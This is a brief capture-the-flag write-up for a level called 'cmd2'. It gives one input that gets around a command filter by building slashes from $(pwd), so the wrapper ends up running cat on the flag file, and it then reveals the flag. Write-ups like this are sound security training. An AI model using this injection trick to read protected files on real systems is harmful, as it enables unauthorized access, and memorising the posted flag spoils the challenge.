

this is more complicated level.
here we use this input: 
```
./cmd2 "cd ..; cd ..; pwd; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"
```

first, we cd into `/`.
then, we execute this command: `/bin/cat /home/cmd2/fl*`, by taking each time our current directory with `pwd`, which gives us `/`.

by this way we can build our command.



**Flag:** ***`FuN_w1th_5h3ll_v4riabl3s_haha`***
